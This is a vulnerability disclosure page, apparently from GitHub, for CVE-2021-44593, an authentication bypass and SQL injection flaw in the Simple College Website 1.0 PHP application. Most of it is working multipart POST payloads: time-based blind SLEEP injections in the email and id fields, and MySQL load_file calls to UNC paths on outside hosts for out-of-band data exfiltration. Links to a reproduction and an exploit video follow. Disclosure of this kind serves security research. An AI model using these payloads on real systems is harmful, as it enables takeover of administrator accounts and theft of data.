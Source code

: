 ## [CVE-2021-44593](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44593)

## [Software](https://www.sourcecodester.com/php/14548/simple-college-website-using-htmlphpmysqli-source-code.html)

## [Vendor](https://www.sourcecodester.com/users/tips23)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44593/Docs/Screenshot%202022-01-28%20164854.png)

## Description:
The Simple College Website 1.0 system is vulnerable to multiple SQL injections by using a bypass authentication in the first stage.
The attacker can exploit and manipulate all accounts of the system plus the administrator's accounts.
The vulnerable parameters are `contact`, `email`, and `id`.
Status: CRITICAL

[+] Payloads:

```mysql
---
Parameter: MULTIPART email ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryfYPr4nvTNDnB74wX
Content-Disposition: form-data; name="name"

Simple College Website
------WebKitFormBoundaryfYPr4nvTNDnB74wX
Content-Disposition: form-data; name="email"

info@sample.comm' AND (SELECT 4393 FROM (SELECT(SLEEP(3)))fUEd) AND 'hsNN'='hsNN
------WebKitFormBoundaryfYPr4nvTNDnB74wX
Content-Disposition: form-data; name="contact"

+6948 8542 623'+(select load_file('\\\\3rveh4nxo0txl4w4nvkmpgek6bc40w0krnff27qw.sourcecodester.com\\ghw'))+'
------WebKitFormBoundaryfYPr4nvTNDnB74wX
Content-Disposition: form-data; name="about"

<p style="text-align: center; background: transparent; position: relative;"><br></p><p style="text-align: ce
---


---
Parameter: MULTIPART email ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryfYPr4nvTNDnB74wX
Content-Disposition: form-data; name="name"

Simple College Website
------WebKitFormBoundaryfYPr4nvTNDnB74wX
Content-Disposition: form-data; name="email"

info@sample.comm' AND (SELECT 4393 FROM (SELECT(SLEEP(3)))fUEd) AND 'hsNN'='hsNN
------WebKitFormBoundaryfYPr4nvTNDnB74wX
Content-Disposition: form-data; name="contact"

+6948 8542 623'+(select load_file('\\\\3rveh4nxo0txl4w4nvkmpgek6bc40w0krnff27qw.sourcecodester.com\\ghw'))+'
------WebKitFormBoundaryfYPr4nvTNDnB74wX
Content-Disposition: form-data; name="about"

<p style="text-align: center; background: transparent; position: relative;"><br></p><p style="text-align: ce
---


---
Parameter: MULTIPART id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryQYuBFl6XnXBtfWL5
Content-Disposition: form-data; name="id"

(select load_file('\\\\187cy24v5yav22d24t1k6evin9t2hw5n7bzypme.sourcecodester.com\\gkl')) AND (SELECT 7782 FROM (SELECT(SLEEP(3)))jcgr)
------WebKitFormBoundaryQYuBFl6XnXBtfWL5
Content-Disposition: form-data; name="name"

iEIgvwLH
------WebKitFormBoundaryQYuBFl6XnXBtfWL5--
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-44593)

## Proof and Exploit:
[href](https://streamable.com/titir8)
